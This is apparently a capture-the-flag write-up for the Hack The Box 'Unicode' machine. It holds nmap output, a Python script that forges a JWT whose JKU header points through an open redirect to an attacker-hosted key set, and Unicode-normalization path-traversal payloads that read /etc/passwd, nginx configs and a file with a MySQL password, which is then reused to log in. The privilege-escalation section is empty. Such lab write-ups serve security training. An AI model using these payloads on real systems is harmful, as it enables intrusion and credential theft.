

## Enumeration

### Open Ports

```Bash
# Nmap 7.92 scan initiated Tue Dec  7 22:59:53 2021 as: nmap -sC -sS -sV -oN nmap.txt -vvv unicode.htb
Nmap scan report for unicode.htb (10.10.11.126)
Host is up, received echo-reply ttl 63 (0.29s latency).
Scanned at 2021-12-07 22:59:55 EST for 18s
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fd:a0:f7:93:9e:d3:cc:bd:c2:3c:7f:92:35:70:d7:77 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC2tldCNzbxK22LE6gPT7x5wliLZL0gLpI9BHO8qz1I7EIL7ygZ0vLk7tZ5JtDFvkdJiMfsbluCGZTpnHuFUY620uPgYEdfYu+RcTH97ldEyio6GKNkhGN+MRi8swttVWFr24sGGU4FEjhQTBG8/aivffqn+w0yksEIQCmXbh/y4xo5MBLeh/n0tMm67e/wrjUg3Y8zDCXXNVpNWzZMtyR8cThY/adlk1F8TatvcHOzG/MC4Xg16B9qjJ1CzJmztbIHpRRe64ow9vdiO6ofyVroiazMkMaE6ltWEl5XC4rKurbD2DySFDUdRr8QT3aAQpNYNPNU2Q9hJYUN1gKZAUCg0mMUmBIbQXyiKiq/b5JGGLPhUkoD6Pl2WjE60D+3ZnNqW8jabBMzUotwi6KdJ5v4HvJiNxNrzjQRpNCJ6rBhIFOUqZQHBsDsFiyOSLXEPpYnNhG502TGELiHOFuK15QMh9CqCZn9PvwIiACTyeet9NdUyHtxHT8gklpnHdNSXY8=
|   256 8b:b6:98:2d:fa:00:e5:e2:9c:8f:af:0f:44:99:03:b1 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNpOPaB/e8Wk54u5TO7EABpkTxMt6Mz10v02RBzyUPJyzpXi1eC8X2VvIpCngtg4Uvbv07ZEm72Tb9S6IoJ/8MI=
|   256 c9:89:27:3e:91:cb:51:27:6f:39:89:36:10:41:df:7c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAID/Us0SuyKOvqEgu/XGps4fVOmhy+iczFKeIrtjRWxUN
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
|_http-favicon: Unknown favicon MD5: E06EE2ACCCCCD12A0FD09983B44FE9D9
| http-methods: 
|_  Supported Methods: GET OPTIONS HEAD
|_http-generator: Hugo 0.83.1
|_http-title: Hackmedia
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Dec  7 23:00:13 2021 -- 1 IP address (1 host up) scanned in 20.03 seconds
```

## Web Enumeration

###  Sub-Domain



No Subdomain found.

### JWT Token
    

    

Suspecting something to do with JWT. I remember JWT `RS256` has `none` algorithm attack. Maybe something to do with JKU.

## Foothold

I tried to exploit RS256 to none algorithm attack it didn't work. Now lets try messing with JKU.

Let's generate a RSA private key using `openssl` 

`openssl genrsa -out keypair.pem 2048` 

Now lets generate JWT token using the private key. 

```Python
from jwcrypto import jwk,jwt 
import json

with open("keypair.pem","rb") as pemfile:
    key = jwk.JWK.from_pem(pemfile.read()) 

pubkey = key.export(private_key=False)

# print(pubkey)

jwks = {}

jwks["keys"] = [json.loads(pubkey)] 

with open("jwks.json","w") as h:
    h.write(json.dumps(jwks))

Token = jwt.JWT(
    header={
        "alg": "RS256",
        "jku": "http://hackmedia.htb/static/../redirect/?url=10.10.14.36/static/jwks.json"
        
    },
    claims={"user":"admin"},
)

Token.make_signed_token(key)
print(Token.serialize())
```


And then run a python server. You'll be logged it. 
Now log in as `admin`.

### Admin Panel


Looks like there could be **LFI**.


### Exploit LFI


There appears to be LFI filter.

### LFI Filter Bypassing - Unicode Normalization

[Unicode Normalization](https://book.hacktricks.xyz/pentesting-web/unicode-normalization-vulnerability) was used to exploit LFI 


**Final Payload**  `%e2%80%a5%ef%bc%8f%e2%80%a5%ef%bc%8f%e2%80%a5%ef%bc%8f%e2%80%a5%ef%bc%8f%e2%80%a5%ef%bc%8f%e2%80%a5%ef%bc%8fetc%ef%bc%8fpasswd`

Normalized characters [list](https://appcheck-ng.com/wp-content/uploads/unicode_normalization.html).

```
../ => %e2%80%a5%ef%bc%8f
etc => %e1%b5%89%e1%b5%97%ef%b9%a4
/ => %ef%bc%8f
```

Unable to retrieve SSH private Keys.

Let's check what's in Nginx configs

```
/etc/nginx/nginx.conf 

%e2%80%a5%ef%bc%8f%e2%80%a5%ef%bc%8f%e2%80%a5%ef%bc%8f%e2%80%a5%ef%bc%8f%e2%80%a5%ef%bc%8f%e2%80%a5%ef%bc%8f%e2%80%a5%ef%bc%8f%e2%80%a5%ef%bc%8f%e2%80%a5%ef%bc%8f%e2%80%a5%ef%bc%8f%ef%bc%8fetc%ef%bc%8fnginx%ef%bc%8fnginx%e2%80%a4conf

/etc/nginx/default
%e2%80%a5%ef%bc%8f%e2%80%a5%ef%bc%8f%e2%80%a5%ef%bc%8f%e2%80%a5%ef%bc%8f/etc/nginx/sites-enabled/default

```


Found Credentials

`GET /display/?page=%e2%80%a5%ef%bc%8f%e2%80%a5%ef%bc%8f%e2%80%a5%ef%bc%8f%e2%80%a5%ef%bc%8f/home/code/coder/db.yaml`


```
mysql_host: "localhost"
mysql_user: "code"
mysql_password: "B3stC0d3r2021@@!"
mysql_db: "user"
```

let's try to log in using the above password as code. and it works. We are now user.

**USER OWNED**

## Privilege Escalation

### Command Injection


OWNED THE MACHINE